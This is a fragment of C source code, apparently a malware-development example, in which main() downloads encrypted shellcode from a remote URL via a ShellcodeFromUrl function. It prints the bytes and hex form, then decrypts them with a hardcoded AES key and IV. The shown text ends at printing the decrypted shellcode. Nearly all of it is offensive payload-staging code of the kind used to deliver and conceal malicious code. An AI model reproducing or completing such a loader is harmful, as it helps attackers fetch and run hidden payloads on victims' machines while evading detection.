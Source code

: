 ```c
    *sPayloadSize = sSize;
    return TRUE;
}

int main() {

    SIZE_T	Size = NULL;
    PBYTE	Bytes = NULL;


    // Calling the function to read the encrypted shellcode
    if (!ShellcodeFromUrl(&Bytes, &Size)) {
        return -1;
    }

    // Printing encrypted shellcode address and size of it.
    printf("[i] Bytes : 0x%p \n", Bytes);
    printf("[i] Size  : %ld \n", Size);

    // Printing the shellcode into bytes.
    for (int i = 0; i < Size; i++) {
        if (i % 16 == 0)
            printf("\n\t");

        printf("%0.2X ", Bytes[i]);
    }
    printf("\n\n");

    // Printing the shellcode into Hex Format.
    printf("Hex Format\n");
    for (int i = 0; i < Size; i++) {
        if (i % 16 == 0) {
            printf("\n\t");
        }
        if (i < Size - 1) {
            printf("0x%0.2X, ", Bytes[i]);
        }
        else {
            printf("0x%0.2X ", Bytes[i]);
        }
    }
    printf("\n\n\n");

    // Initializing the key and IV needed for the decryption
    PVOID	pPlaintext = NULL;
    DWORD	dwPlainSize = NULL;
    unsigned char AesKey[] = {
        0x82, 0xD7, 0xD0, 0xAA, 0xB9, 0xE9, 0xB1, 0xFC, 0x27, 0xB1, 0x5B, 0x36, 0x0E, 0x7F, 0xAF, 0x48,
        0xEE, 0xDD, 0xD9, 0x3F, 0xEE, 0x69, 0xD1, 0xBD, 0x7D, 0xE4, 0x28, 0xA6, 0x39, 0x86, 0x01, 0x1D };
    unsigned char AesIv[] = {
            0xEC, 0x6C, 0xF0, 0x8E, 0xA6, 0x37, 0xEA, 0xCE, 0x98, 0x8B, 0xA8, 0xA0, 0x3B, 0x95, 0xF8, 0xAC };
    
    // Calling the decryption function
    if (!SimpleDecryption(Bytes, Size, AesKey, AesIv, &pPlaintext, &dwPlainSize)) {
        printf("Decryption exited with code: %d \n", GetLastError());
        return -1;
    }

    // Printing the decypted shellcode
    printf("\n[>] decrypted shellcode:\n");
```